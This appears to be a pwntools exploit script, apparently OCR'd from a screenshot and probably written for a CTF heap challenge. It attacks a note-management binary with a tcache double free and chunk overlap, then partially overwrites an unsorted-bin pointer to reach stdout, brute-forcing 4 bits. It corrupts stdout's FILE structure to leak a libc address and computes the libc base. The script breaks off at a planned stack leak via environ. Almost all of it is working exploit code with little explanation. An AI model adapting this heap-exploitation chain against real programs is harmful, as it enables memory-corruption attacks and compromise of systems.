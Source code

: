 ```python
def lg(name, val):
    log.info(name+" : "+hex(val))

def add( size, data):
    choice( 1)
    io.sendlineafter( " size of the chunk: ", str(size))
    io.sendafter( "Enter note: ", data)

def rm( idx):
    choice( 2)
    io.sendlineafter( "Enter chunk index: ", str(idx))

def set( data):
    choice( 0x1337)


# construct double free

add( 0x18, 'wwww')
add( 0x28, 'xxxx')
add( 0x28, 'kkkk')

rm( 2)
rm( 1)
rm( 0)
add( 0x118, flat('a'*0x18, 0x31) + "\x80")

add( 0x28, '\x80')
add( 0x28, '\x80')

# use unsorted bin to get  libc address

rm( 0)
add( 0x518, flat('a'*0x18, 0x421, 'a'*0x410, 0, 0x21, 0, 0, 0, 0x21))

rm( 1)

# partial overwrite unsorted bin's address to make it points to stdout

# need to bruteforce 4 bits

rm( 0)
add( 0x118, flat('a'*0x18, 0x31) + "\x1d\x37")

# overwrite last byte of stdout->write_base to \x00

# the we can get libc address

add( 0x28, 'a')
add( 0x128, flat('a'*(67 -8), 0X41, 0xfbad1800, 0, 0, 0) + '\0')

io.recv( 8)

libc_addr = u64(io.recv( 6) + '\0\0')
lg('libc_addr', libc_addr)
libc.address = libc_addr - 0x3ed8b0 # remote libc

lg("libc base", libc.address)

stdout_addr = libc.symbols['_IO_2_1_stdout_']

# use environ in libc to leak stack address

```